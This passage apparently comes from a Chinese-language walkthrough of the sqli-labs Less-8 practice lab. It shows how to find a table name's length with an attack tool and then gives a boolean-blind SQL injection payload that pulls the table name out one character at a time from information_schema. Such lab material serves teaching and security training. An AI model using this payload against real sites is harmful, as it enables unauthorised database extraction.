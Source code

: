   ![](/assets/images/8-17.png)

  点击”开始攻击“  => 按长度进行排序筛选出所需的结果

  ![](/assets/images/8-18.png)

  得到第一个表名长度为6

- 爆破第一个表名的每一位字符（6字符）

  ```
  /sqlilabs/Less-8/
  ?id=1' and (select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1 ) =100  -- s
  ```
